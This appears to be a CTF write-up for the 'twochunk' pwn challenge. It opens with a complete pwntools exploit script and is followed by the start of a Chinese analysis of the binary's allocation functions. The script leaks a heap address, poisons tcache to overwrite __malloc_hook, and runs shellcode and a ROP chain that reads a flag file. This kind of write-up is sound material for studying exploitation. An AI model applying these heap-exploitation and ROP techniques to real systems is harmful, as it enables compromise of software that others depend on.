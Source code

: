 ```python
free(0)
add(2,0x1f8)
free(2)
show(2)
p.readuntil("name: ")
heap=u64(p.read(6)+'\0\0')-0x17b0
add(2,0x217)
free(2)
edit(2,p64(libc.sym['__malloc_hook']))
edit(0,'\0'*0x1f8+p64(0x91)+p64(heap+0x19a0)+p64(heap+0x30-0x10))
log.warning(hex(heap))
log.warning(hex(base))
add(1,0x88)
cmd(0xc388)
sh=shellcraft.open("./flag")
sh+='''
mov rdi,rax
mov rsi,{}
mov rdx,0x30
xor rax,rax
syscall
mov rdi,1
mov rax,1
syscall
'''.format(heap+0x800)
p.send(asm(sh))
cmd(0xc388)
gadget=0x000000000010e994+base#add rsp,0x58;ret;
rdi=0x0000000000026542+base
gdb.attach(p)
p.send(p64(gadget))
ret=0x000000000002535f+base
rdi=0x0000000000026542+base
rsi=0x0000000000026f9e+base
rdx=0x000000000012bda6+base
rax=0x0000000000047cf8+base
sys=0x0000000000026bd4+base
rcx=0x000000000010b31e+base
rop=p64(ret)*3+p64(rdi)+p64(0xa)+p64(rsi)+p64(heap)+p64(rdx)+p64(0x3000)+p64(rcx)+p64(7)+p64(libc.sym['syscall'])+p64(heap+0x1e30)
add(0,0x200,rop)
p.interactive()
```

# twochunk
an exquisite expanding of one_punch_man 
英文不好写篇文章累个半死...换中文..还是中文情切.
这题比赛时候我们队用的是另一种方法类似的方法做出来...跑了好几个小时....碰撞地址...其实这题有其特殊性.首先咱来分析一下这题.
## Analysis
这题主要有7个功能大多数功能都是有使用次数限制的(做的时候太难受了!)
全题最多允许存在的index只能为0或者1...
Add function:
可以选择
1. malloc(0xf8)但是size为23333 只有一次机会+`strchr(list[idx].ptr, 0x7F))`结果要为0
2. calloc(size) size>0x80 && size<=0x3ff


[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io